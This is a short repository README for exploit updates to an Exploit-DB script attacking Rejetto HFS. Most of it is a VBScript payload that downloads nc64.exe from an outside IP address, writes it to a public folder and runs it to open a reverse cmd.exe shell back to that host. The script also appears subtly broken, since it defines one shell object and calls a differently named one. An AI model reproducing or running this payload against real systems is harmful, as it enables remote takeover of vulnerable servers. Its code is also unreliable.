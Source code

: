 # CanvasTools

Series of updates for exploits

## Updates
https://github.com/darkniyt/CanvasTools/wiki

### Updates to 39161.py:
Rejetto HFS exploit:  https://www.exploit-db.com/exploits/39161
####  Includes below changes to respctive script.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.26.69/nc64.exe", False
xHttp.Send
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc64.exe", 2 '//overwrite
end with
Set objShell20= CreateObject("WScript.Shell")
objShell.Exec("C:\Users\Public\nc64.exe -d 10.6.26.69 4040 -e cmd.exe")
